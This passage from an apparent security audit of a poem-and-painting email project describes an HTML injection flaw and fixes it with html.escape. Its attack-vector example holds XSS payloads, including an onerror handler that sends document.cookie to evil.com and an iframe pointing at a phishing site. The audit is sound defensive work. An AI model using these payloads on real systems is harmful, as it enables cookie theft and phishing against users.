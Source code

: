    ```bash
    hooks:
      - id: detect-secrets
        args: ['--baseline', '.secrets.baseline']
        exclude: package.lock.json
EOF

   # Initialize
   pre-commit install
   detect-secrets scan > .secrets.baseline
   ```

#### Security Issue #2: HTML Injection in Emails

**Vulnerable Code (email_sender.py:381):**
```python
html_content += f"""
    <h3 class="poem-title">{poem['title']}</h3>
    <p class="poem-author">by {poem['author']}</p>
    <div class="poem-text">{poem['text']}</div>
```

**Attack Vector:**
If PoetryDB is compromised or returns malicious data:
```json
{
  "title": "<script>alert('XSS')</script>",
  "author": "<img src=x onerror='fetch(\"https://evil.com?cookie=\"+document.cookie)'>",
  "text": "<iframe src='https://phishing-site.com'></iframe>"
}
```

**Impact:**
- Cross-site scripting (XSS) in email clients
- Phishing attacks disguised as your emails
- Credential theft
- Email reputation damage

**Required Fix:**

```python
import html

def _create_html_body(self, paintings: List[Dict], poems: List[Dict], ...):
    # ... existing code ...

    # SANITIZE ALL USER-CONTROLLED CONTENT
    html_content += f"""
        <h3 class="poem-title">{html.escape(poem['title'])}</h3>
        <p class="poem-author">by {html.escape(poem['author'])}</p>
        <div class="poem-text">{html.escape(poem['text']).replace(chr(10), '<br>')}</div>
    """

    # Also sanitize artwork data
    html_content += f"""
        <h2 class="painting-title">{html.escape(painting['title'])}</h2>
        <p class="painting-artist">{html.escape(painting['artist'])}</p>
        <p class="painting-description">{html.escape(painting.get('description', ''))}</p>
    """
```
